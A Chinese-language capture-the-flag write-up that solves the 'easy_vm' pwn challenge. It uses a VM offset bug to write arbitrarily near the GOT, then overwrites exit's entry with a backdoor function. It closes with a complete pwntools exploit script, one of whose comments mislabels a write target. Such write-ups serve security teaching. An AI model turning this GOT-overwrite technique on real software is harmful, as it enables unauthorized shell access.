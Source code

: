 # easy_vm

## 0x00 题面

该题为虚拟机类型的 pwn 题, [题目链接](file:///D:/ctf/pwn/easy_vm_ac77fc3065048854ccc391daccecf7a9)

## 0x01 思路

拿到 PWN 题首先丢到 linux 环境中检查一下程序保护情况, 文件类型以及执行效果

- 检查文件类型

```
file pwn
```

![](vx_images/4435825165493.png)

文件是 64 位

- 检查程序保护情况

```
checksec --file=pwn
```

![](vx_images/4938926146734.png)

程序开启了 Canary, NX 保护

- 最后执行一下:

  ![](vx_images/156728169174.png)

功能有点不明所以, 所以我们直接用 IDA Pro 反编译查看, 从`main`函数反编译后如下:

![](vx_images/4750132164310.png)

跟进`sub_4007F6`查看:

![](vx_images/3973133157856.png)

`sub_4007F6`的作用就是读取我们的输入, 返回到`main`函数后, 会对我们的输入进行逐位判断, 然后通过偏移量`dword_6011A0`对相应地址进行读写操作:

- `\x00`: 偏移量自加 1
- `\x01`: 偏移量自减 1
- `\x02`: 打印地址`dword_6011A0 + 6295712`处的字符到控制台中
- `\x03`: 从控制台中读取字符, 写入地址`dword_6011A0 + 6295712`中
- `\x04`: 退出程序
- 其他: 打印错误信息, 退出

其中`6295712`的 16 进制为`0x6010A0`, 在 got 表附件:

![](vx_images/1886747141520.png)

显然, 我们可以通过控制偏移量的大小, 对程序的地址空间进行任意读写, 于是一个思路就是修改 got 表中某些函数的地址, 达成任意地址跳转. 那么要跳转到哪个地址呢?

我们再次对程序中的各个函数进行反编译, 发现`sub_4007E5`是个后门函数, 可以直接运行 shell:

![](vx_images/5626644150990.png)

那么我们不妨用以下步骤进行 getshell:

1. 发送若干个`\x01`, 让`dword_6011A0 + 0x6010A0`的值为`got`表中`exit`函数的地址
2. 发送`\x03`, 触发写入函数
3. 发送后门地址, 让程序覆盖`got`表中的`exit`地址
4. 发送`\x04`, 触发`exit(0)`, 但是此时`exit`在`got`表中的地址被我们修改了, 所以我们此时会获取到 shell.

需要注意一个细节, 程序中向地址中写入时, 一次只能写入一个字符, 所以我们要将地址分三次写入, exp 如下:

```python
from pwn import *

offset = 0x6010a0 - 0x601058  # 需要多少偏移量才能到达exit的got表地址
backdoor_addr = 0x4007e5      # 后门地址

p = process('./pwn')
payload = '\x01'*(offset-2)   # 注意要从高地址到低地址, 分3次写入地址, 所以这里要将偏移量减2
payload += '\x03' + '\x01'    # 等待读入数据覆盖0x6010a0-offset+2
payload += '\x03' + '\x01'    # 等待读入数据覆盖0x6010a0-offset+1
payload += '\x03' + '\x01'    # 等待读入数据覆盖0x6010a0-offset
payload += '\x04'             # 触发exit()函数 getshell

p.sendlineafter('> ', payload)
p.send('\x40')                # 覆盖0x6010a0-offset+2为0x40
p.send('\x07')                # 覆盖0x6010a0-offset+1为0x07
p.send('\xe5')                # 覆盖0x6010a0-offset+1为0xe5
p.interactive()
```

![](vx_images/1699824154024.png)
